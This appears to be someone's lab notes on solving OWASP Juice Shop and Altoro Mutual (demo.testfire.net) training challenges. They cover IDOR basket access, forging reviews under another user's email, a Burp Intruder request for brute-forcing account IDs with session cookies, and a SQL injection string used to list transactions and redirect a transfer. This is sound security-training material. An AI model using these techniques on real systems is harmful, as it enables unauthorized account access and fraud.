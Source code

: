 # Access Controls

## Access the administration section of the store.
Login and manually try URLS
URL = http://localhost:3000/#/administration
Or 
view the juice-shop.min.js and find the /administration route in the js



## Get rid of all 5-star customer feedback.
Delete five-stars from the adminstration page

## Post some feedback in another users name.	
Intercept a review request http://localhost:3000/rest/product/23/reviews
Modify json with different users email `{"message":"Fake Review","author":"morty@juice-sh.op"}`
*The score-board check isn't working*


## Change the href of the link within the O-Saft product description into http://kimminich.de.
*come back*


## IDOR Solutions

## Access someone else's basket. JuiceShop
Add items to basket
Intercept Request to view basket 
http://localhost:3000/rest/basket/4
IDOR change number to 1
Other users basket is displayed

## Account History http://demo.testfire.net/bank/account.aspx
intruder
```
POST /bank/account.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Origin: http://demo.testfire.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/main.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

listAccounts=10011601§40§

```
* Sniper
* Payload Type Number
* from 40 to 99
* sort by length


### Make jsmith filthy rich
* in the the transaction page do `1 or 1 =1;-- ` to list all transactions
* accounts 20 and 21 are always sending money back and forth
* intercept a transfer and send money from account 20 to jsmiths account. 

